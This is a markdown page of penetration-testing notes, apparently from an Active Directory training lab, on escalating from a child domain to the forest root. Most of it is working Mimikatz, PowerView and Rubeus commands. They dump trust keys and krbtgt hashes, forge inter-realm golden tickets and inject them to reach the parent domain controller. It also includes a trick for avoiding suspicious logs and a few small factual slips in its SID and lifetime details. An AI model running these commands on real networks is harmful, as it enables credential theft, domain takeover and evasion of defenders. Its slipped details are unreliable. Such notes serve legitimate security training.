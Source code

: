 # Cross Domain Attacks

## General

- Domains in the same forest have an implicit two-way trust relationship
- There is a trust key between the parent and child domains
- There are two ways of escalating privileges between two domains of the same forest
  - Krbtgt hash
  - Trust tickets

### Authentication Process for Resource in Different Domain

1. Client requests TGT from DC in own domain
2. DC sends back TGT
3. Client shows TGT when requesting TGS for resource in another domain
4. DC checks global catalog and finds resource in another domain
5. DC sends back inter-realm TGT encrypted with Trust Key
6. Client sends inter-realm TGT when requesting TGS for resource to DC of target domain
7. DC checks if trust key is valid
8. If yes, sends back TGS
9. Client presents TGS when accessing target resource
10. Target resource checks if client can access resource

## Exploitation

### Child to Forest Root Using Trust Key

- Vulnerable step here is step 6, sending the TGT encrypted with trust key
- If we have the trust key, we can forge a ticket
- Escalate privileges from Domain Admin in current domain to Enterprise Admin or DA in forest root

#### Arguments

| Argument | Description |
| --- | --- |
| kerberos::golden | Module name |
| /domain:domain:dollarcorp.moneycorp.local | FQDN of current domain |
| /sid:S-1-5-21-1874506631-3219952063-538504511 | SID of the currentdomain |
| /User:Administrator | User to impersonate |
| /target:moneycorp.local | FQDN of the target/parent domain |
| /sids:S-1-5-21-280534878-1496970234-700767426-519 | SID of the Enterprise Admins group of the parent/target domain |
| /rc4:200a7dab8e762344bd76a62acac42568 | RC4 hash of the trust key |
| /ticket:trust_tgt.kirbi | Save ticket to file for later use |
| /startoffset:0 | Optional when the ticket is available (default 0 right now) in minutes. Use negative for a ticket available from past and a larger number for future. |
| /endin:600 | Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes |
| /renewmax:10080 | Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |
| /ptt | Inject ticket in current PowerShell process |

#### Commands

```powershell
# Dump trust key from DC with mimikatz
# Look for [In] trust key from child to parent
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'

# Get SID of Enterprise Admins Group using PowerView 3.0
Get-DomainGroup -Domain moneycorp.local "Enterprise Admins" | Select objectsid

# Forge inter-realm TGT
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /user:Administrator /target:moneycorp.local /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:200a7dab8e762344bd76a62acac42568 /service:krbtgt /ticket:trust_key_tgt.kirbi"'

# Use inter-realm ticket to get and use TGS for CIFS service on DC of the parent domain
.\Rubeus.exe asktgs /ticket:trust_key_tgt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt

# Check access
ls \\mcorp-dc.moneycorp.local\c$
```

### Child to Forest Root Using Krbtgt Hash

- Same principle as using trust key
- But: no need to explicitly request TGS for specific service
- Works like golden ticket

```powershell
# Dump krbtgt hash with DA privileges
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

# Forge inter-realm TGT
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /user:Administrator /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:trust_krbtgt_tgt.kirbi"'

# Avoid suspicious logs by using SID of Domain Controllers and Enterprise Domain Controllers
# S-1-5-21 = Domain Controllers
# S-1-5-9  = Enterprise Domain Controllers
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /user:dcorp-dc$ /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:trust_krbtgt_tgt.kirbi"'

# Inject ticket into session
Invoke-Mimikatz -Command '"kerberos::ptt trust_krbtgt_tgt.kirbi"'
```
